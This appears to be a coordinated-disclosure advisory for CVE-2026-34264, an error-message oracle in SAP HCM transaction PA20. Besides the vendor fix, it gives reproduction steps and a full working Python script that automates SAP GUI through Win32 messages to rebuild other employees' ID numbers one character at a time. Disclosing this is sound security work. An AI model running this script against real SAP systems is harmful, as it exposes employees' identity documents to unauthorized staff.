







# CVE-2026-34264

Information Disclosure via Observable Response Discrepancy in SAP HCM Transaction PA20

## Timeline

* Vulnerability reported to vendor: 2025-10-23
* Public disclosure: 2026-04-13
* Fix available in: SAP Security Note 3680767 (April 2026 SAP Security Patch Day, 2026-04-13)

## Description

SAP Human Capital Management (HCM) exposes sensitive employee identity document data
from inaccessible organizational units through observable differences in error messages
returned by transaction PA20 (Display HR Master Data). The vulnerability is present in
both the SAP GUI and SAP Fiori interfaces.

An authenticated user with low privileges — such as an HR administrator scoped to a
single branch — can determine the existence and reconstruct the full content of identity
documents (e.g. IC numbers, passport numbers, driver license numbers) belonging to employees from other branches
or headquarters. The distinguishing factor is that a wildcard search matching a record
the requestor cannot view returns *"Results list is incomplete due to missing
authorization"*, while a search that matches nothing returns *"No values for this
selection"*. This behavioral difference acts as a boolean oracle enabling character-by-character enumeration of restricted field values.

CWEs:

* [CWE-200 — Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
* [CWE-204 — Observable Response Discrepancy](https://cwe.mitre.org/data/definitions/204.html)
* [CWE-211 — Externally-Generated Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/211.html)

CVSS 3.1 Vector: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`

CVSS 3.1 Score: 6.5 (Medium)

## Technical Analysis

### Error-message oracle

Two structurally different responses leak whether a wildcard search prefix matches a
record the attacker is not authorized to see:

| Scenario | SAP response message |
|---|---|
| No records match the search pattern | *No values for this selection* |
| Records exist but access is denied | *Results list is incomplete due to missing authorization* |

By submitting repeated wildcard queries with incrementally longer prefixes (e.g. `A*`,
`AV*`, `AVC*`, …) through the Identity Number search field in the Personnel Number (1)
dialog, an attacker can recover the full identity document value of any employee — even
those in different organizational units — as long as the attacker knows the target
employee's personnel number.

### SAP GUI variant

The same oracle is accessible via the legacy SAP GUI. The screenshots below show the
two distinguishable responses when querying PA20 for the IC Number of a target employee
from another branch.

Search prefix does not match — "No values for this selection":



Search prefix matches the restricted record — "Results list is incomplete due to missing authorization":



### SAP Fiori variant

The same oracle is present in the SAP Fiori "Display HR Master Data" application.

Search with a non-matching prefix — no authorization warning:



Search prefix matches the restricted record — "Results list is incomplete due to missing authorization":



After discovering the IC number prefix, the Fiori dialog confirms the full reconstructed
value still triggers the oracle response:



## Reproduction Steps

The following was confirmed against SAP S/4HANA with SAP HCM using an account with
HR Administrator rights in a branch organizational unit.

**Pre-conditions:**

- Attacker has a valid SAP account with HR Administrator rights in at least one branch.
- SAP GUI with transaction PA20 is reachable.
- The target employee's personnel number is known (e.g. obtained from HR processes or
  a prior information leak).
- The target employee has at least one identity document (IC Number) stored in the system.

**Step 1 — Open the PA20 search dialog:**

In SAP GUI: launch transaction `PA20`, enter the target employee's personnel number in
the *Personnel no.* field, then open the Personnel Number (1) search dialog for the
*I: IC Number* tab.

**Step 2 — Run the automation script:**

The script [`sap_error_oracle.py`](sap_error_oracle.py) automates the oracle enumeration
via Windows API calls (`SendMessage` / `PostMessage`) against the open SAP GUI dialog
window. It sends wildcard search strings, reads the footer status label, and appends
each confirmed character to the discovered prefix.

```
python sap_error_oracle.py TESTID
```

Where `TESTID` is the label text of the IC Number input field visible in the open
*Personnel Number (1)* dialog.

An optional second argument pre-seeds the known prefix:

```
python sap_error_oracle.py TESTID AVC
```

Script enumerating the identity document value character by character:



Script output after completing the enumeration — the full IC number is displayed:



The script source ([`sap_error_oracle.py`](sap_error_oracle.py)):

```python
import ctypes, sys
from ctypes import wintypes
import time, string

user32 = ctypes.windll.user32

WM_KEYDOWN  = 0x0100
WM_KEYUP    = 0x0101
VK_RETURN   = 0x0D
WM_CHAR     = 0x0102
WM_GETTEXT        = 0x000D
WM_GETTEXTLENGTH  = 0x000E

EnumWindowsProc = ctypes.WINFUNCTYPE(ctypes.c_bool, wintypes.HWND, wintypes.LPARAM)

def find_window_by_title(target_title):
    found_hwnd = []
    def callback(hwnd, lParam):
        length = user32.GetWindowTextLengthW(hwnd)
        if length > 0:
            buffer = ctypes.create_unicode_buffer(length + 1)
            user32.GetWindowTextW(hwnd, buffer, length + 1)
            if target_title in buffer.value:
                found_hwnd.append(hwnd)
                return False
        return True
    user32.EnumWindows(EnumWindowsProc(callback), 0)
    return found_hwnd[0] if found_hwnd else None

def get_window_caption(hwnd):
    text_length = user32.SendMessageW(hwnd, WM_GETTEXTLENGTH, 0, 0)
    if text_length > 0:
        buffer = ctypes.create_unicode_buffer(text_length + 1)
        user32.SendMessageW(hwnd, WM_GETTEXT, text_length + 1, ctypes.byref(buffer))
        return buffer.value
    return ""

def find_child_window(parent_hwnd, target_text):
    found_child_hwnd = []
    def callback(hwnd, lParam):
        length = user32.GetWindowTextLengthW(hwnd)
        window_caption = get_window_caption(hwnd)
        if length > 0:
            buffer = ctypes.create_unicode_buffer(length + 1)
            user32.GetWindowTextW(hwnd, buffer, length + 1)
            if target_text in buffer.value:
                found_child_hwnd.append(hwnd)
                return False
        if window_caption and target_text in window_caption:
            found_child_hwnd.append(hwnd)
            return False
        return True
    user32.EnumChildWindows(parent_hwnd, EnumWindowsProc(callback), 0)
    return found_child_hwnd[0] if found_child_hwnd else None

def send_enter_key(hwnd):
    user32.SetForegroundWindow(hwnd)
    time.sleep(0.1)
    user32.PostMessageW(hwnd, WM_KEYDOWN, VK_RETURN, 0)
    user32.PostMessageW(hwnd, WM_KEYUP,   VK_RETURN, 0)

def send_chars_to_window(hwnd, chars):
    for char in chars:
        user32.SendMessageW(hwnd, WM_CHAR, ord(char), 0)

if __name__ == "__main__":
    print("\nSAP Information Disclosure via Error Message Oracle Helper Tool v0.3.7"
          " by Michał Majchrowicz AFINE Team\n")
    if len(sys.argv) < 2:
        print(f"{sys.argv[0]} <text_field_text> [<value_prefix>]\n")
        exit(-1)

    found_str = sys.argv[2] if len(sys.argv) > 2 else ""
    child_window_text = sys.argv[1]

    main_window_titles = ["HR Master Data", "basic HR", "FOOBAR", "Listing"]
    mainHwnd = next((find_window_by_title(t) for t in main_window_titles
                     if find_window_by_title(t)), None)

    if mainHwnd:
        print(f"Main Window found: {hex(mainHwnd)}")
        footer_window_hwnd = find_child_window(mainHwnd, "Footer")
        if footer_window_hwnd:
            print(f"Footer found: {hex(footer_window_hwnd)}")
            results_label_hwnd = next(
                (find_child_window(footer_window_hwnd, lbl)
                 for lbl in ("Results", "Lista wynik", "No values", "Brak warto")
                 if find_child_window(footer_window_hwnd, lbl)),
                None
            )
            if results_label_hwnd:
                print(f"Results label found: {hex(results_label_hwnd)}\n")
                hwnd = (find_window_by_title("Personnel Number (1)")
                        or find_window_by_title("Personal number (1)"))
                if hwnd:
                    print(f"Search window found: {hex(hwnd)}")
                    child_window_hwnd = find_child_window(hwnd, child_window_text)
                    if child_window_hwnd:
                        print(f"Text field with text '{child_window_text}'"
                              f" found: {hex(child_window_hwnd)}")
                        send_enter_key(child_window_hwnd)
                        send_chars_to_window(child_window_hwnd, "FOOBAR_SAP_404_NOT_FOUND*")
                        send_enter_key(child_window_hwnd)
                        time.sleep(2)
                        print("\nSearching valid database value:\n")
                        character_space = (string.ascii_uppercase + "ĄĘÓŚŁŻŹĆŃ"
                                           + string.digits + "_-.")
                        if "NUM" in child_window_text:
                            character_space = string.digits
                        while True:
                            found_next_character = False
                            if "ID" in child_window_text and len(found_str) > 2:
                                character_space = string.digits
                            for ch in character_space:
                                print(f"\rCurrent guess: {found_str}{ch}..." + 30*" ",
                                      end="")
                                send_chars_to_window(child_window_hwnd,
                                                     found_str + ch + "*")
                                send_enter_key(child_window_hwnd)
                                time.sleep(2)
                                caption = get_window_caption(results_label_hwnd)
                                if ("missing authorization" in caption
                                        or "Lista wynik" in caption):
                                    if (found_str + ch
                                            in get_window_caption(child_window_hwnd)):
                                        found_str += ch
                                        found_next_character = True
                                        break
                            if not found_next_character:
                                break
                        send_chars_to_window(child_window_hwnd, found_str + "*")
                        send_enter_key(child_window_hwnd)
                        print(f"\n\nFinal match: {found_str}\n")
                    else:
                        print(f"Window with text '{child_window_text}' not found.")
    else:
        print("Window not found!")
```

## Affected Versions

| Component | Affected versions |
|---|---|
| SAP_HRRXX | 600, 604, 608 |
| S4HCMRXX | 100, 101, 102 |

## Mitigation

Apply SAP Security Note 3680767, available on the SAP Support Portal. This note was
released as part of the April 2026 SAP Security Patch Day (2026-04-13).

## Fix

The fix is delivered via SAP Security Note 3680767, which corrects the authorization
check logic in the PA20 personnel number search dialog so that the system returns a
uniform response regardless of whether matching records exist beyond the user's
authorization scope.

Note: [SAP Security Note 3680767](https://me.sap.com/notes/3680767)

## Credits

This issue was identified by Michał Majchrowicz, Marcin Wyczechowski, and Paweł
Zdunek, members of the AFINE Team.

## References

* [CVE-2026-34264 at cve.org](https://www.cve.org/CVERecord?id=CVE-2026-34264)
* [NVD: CVE-2026-34264](https://nvd.nist.gov/vuln/detail/CVE-2026-34264)
* [SAP Security Note 3680767](https://me.sap.com/notes/3680767)
* [SAP Security Patch Day April 2026](https://url.sap/sapsecuritypatchday)
